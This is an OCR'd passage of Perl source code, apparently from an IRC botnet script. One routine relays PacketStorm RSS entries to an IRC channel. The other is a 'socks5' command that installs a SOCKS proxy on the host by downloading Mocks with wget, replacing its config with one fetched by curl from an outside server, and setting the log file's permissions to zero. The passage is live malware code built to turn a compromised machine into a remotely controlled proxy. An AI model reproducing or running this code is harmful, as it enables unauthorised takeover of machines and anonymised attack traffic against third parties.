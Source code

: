    $page="@r"; 

   close($sock); 

   while ($page =~  m/<link>(.*)<\/link>/g) 

   { 

           push(@ttt,$1); 

   } 

   while ($page =~  m/<description>(.*)<\/description>/g) 

   {  

          push(@ttt1,$1); 

   } 

   foreach $x (0..(@ttt - 1)) 

   { 

         sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3PacketStorm12] ".$ttt[$x]." ".$ttt1[$x].""); 

      sleep 3; 

      $c++; 

   } 

} 

###################### 

#Auto Install Socks V5 using Mocks# 

###################### 

if ($funcarg =~ /^socks5/) { 

  

   sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3SocksV512]12 Installing Mocks please wait4"); 

      system 'cd /tmp'; 

      system 'wget http://switch.dl.sourceforge.net/sourceforge/mocks/mocks-0.0.2.tar.gz'; 

      system 'tar -xvfz mocks-0.0.2.tar.gz'; 

      system 'rm -rf mocks-0.0.2.tar.gz'; 

      system 'cd mocks-0.0.2'; 

      system 'rm -rf mocks.conf'; 

      system 'curl -O http://andromeda.covers.de/221/mocks.conf'; 

      system 'touch mocks.log'; 

      system 'chmod 0 mocks.log'; 
